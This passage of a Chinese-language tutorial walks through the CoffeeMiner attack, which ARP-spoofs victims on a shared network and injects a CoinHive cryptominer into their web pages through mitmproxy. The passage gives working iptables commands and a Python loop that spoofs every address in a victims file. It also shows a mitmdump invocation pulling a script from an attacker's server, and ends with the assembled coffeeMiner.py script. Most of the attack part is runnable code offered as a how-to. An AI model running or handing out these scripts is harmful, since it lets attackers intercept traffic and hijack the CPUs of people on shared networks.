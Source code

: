 上面的代码就是一个简单的HTTP服务器，它将在需要时执行攻击者设置的挖矿服务.
JavaScript挖矿将被放置在/miner_script目录中.在这个案例中，使用了CoinHive JavaScript挖矿工具.

*Coinhive是一个提供恶意JS脚本的网站平台（https://coin-hive[.]com），允许攻击者将脚本挂在到自己的或入侵的网站上，所有访问该网站的用户都可能成为门罗币的挖掘矿工.Coinhive工具其实是一个JavaScript库，用户访问加载该JS的网站后，Coinhive的JS代码库在用户的浏览器上运行，开始为网站所有者挖掘门罗币，消耗的是用户自己的CPU资源。它可以被添加进一个网站，并将使用用户的CPU功率来计算哈希与Cryptonight PoW哈希算法来挖掘基于CryptoNote协议的门罗币.不过CoinHive的执行要在网站的运行时间超过四十秒时才会有效，如果用户意识到自己打开了一个有问题的页面，立马关闭，则CoinHive就会运行失败.


## 2.CoffeeMiner的运行

在以上这些条件准备好以后，开始执行CoffeeMiner，进而让CoffeeMiner脚本执行ARPspoofing攻击，并用mitmproxy将CoinHive cryptominer注入受害者的HTML页面。
为此，需要首先配置ip_forwarding和IPTABLES，以便将攻击者的设备转换为代理。

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

为了对所有受害者执行ARP欺骗，我将为受害者的所有IP准备一个“victim.txt”文件。不过要读取所有受害者IP，就准备一些Python行，它将获得IP（以及命令行参数中的网关IP），并对每个受害者的IP执行ARP欺骗。
```python
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('n') for line in open("victims.txt")]
print("victims:")
print(victims)
# run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
```

一旦执行了ARP欺骗，只需要运行HTTP服务器即可.
```python
> python3 httpServer.py
```
现在，可以用injector.py运行mitmproxy了.

```python
> mitmdump -s 'injector.py http://httpserverIP:8080/script.js'
```
## 3.CoffeeMiner的最终挖矿脚本

现在把上面解释的所有概念都放在'coffeeMiner.py'脚本中：
```python
import os
import sys
#get gateway_ip (router)
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('n') for line in open("victims.txt")]
print("victims:")
print(victims)
# configure routing (IPTABLES)
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080")
# run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
```